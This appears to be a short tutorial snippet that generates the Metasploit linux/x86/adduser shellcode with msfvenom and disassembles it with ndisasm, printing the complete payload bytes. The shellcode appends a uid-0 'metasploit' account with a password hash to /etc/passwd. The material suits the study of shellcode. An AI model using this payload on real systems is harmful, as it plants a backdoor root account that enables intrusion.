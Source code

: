 ## Using Disasm to Dissemble the adduser Shellcode
```console
root# msfvenom --payload linux/x86/adduser | ndisasm -u -
Payload size: 97 bytes

00000000  31C9              xor ecx,ecx
00000002  89CB              mov ebx,ecx
00000004  6A46              push byte +0x46
00000006  58                pop eax
00000007  CD80              int 0x80
00000009  6A05              push byte +0x5
0000000B  58                pop eax
0000000C  31C9              xor ecx,ecx
0000000E  51                push ecx
0000000F  6873737764        push dword 0x64777373
00000014  682F2F7061        push dword 0x61702f2f
00000019  682F657463        push dword 0x6374652f
0000001E  89E3              mov ebx,esp
00000020  41                inc ecx
00000021  B504              mov ch,0x4
00000023  CD80              int 0x80
00000025  93                xchg eax,ebx
00000026  E828000000        call 0x53
0000002B  6D                insd
0000002C  657461            gs jz 0x90
0000002F  7370              jnc 0xa1
00000031  6C                insb
00000032  6F                outsd
00000033  69743A417A2F6449  imul esi,[edx+edi+0x41],dword 0x49642f7a
0000003B  736A              jnc 0xa7
0000003D  3470              xor al,0x70
0000003F  3449              xor al,0x49
00000041  52                push edx
00000042  633A              arpl [edx],di
00000044  303A              xor [edx],bh
00000046  303A              xor [edx],bh
00000048  3A2F              cmp ch,[edi]
0000004A  3A2F              cmp ch,[edi]
0000004C  62696E            bound ebp,[ecx+0x6e]
0000004F  2F                das
00000050  7368              jnc 0xba
00000052  0A598B            or bl,[ecx-0x75]
00000055  51                push ecx
00000056  FC                cld
00000057  6A04              push byte +0x4
00000059  58                pop eax
0000005A  CD80              int 0x80
0000005C  6A01              push byte +0x1
0000005E  58                pop eax
0000005F  CD80              int 0x80
```
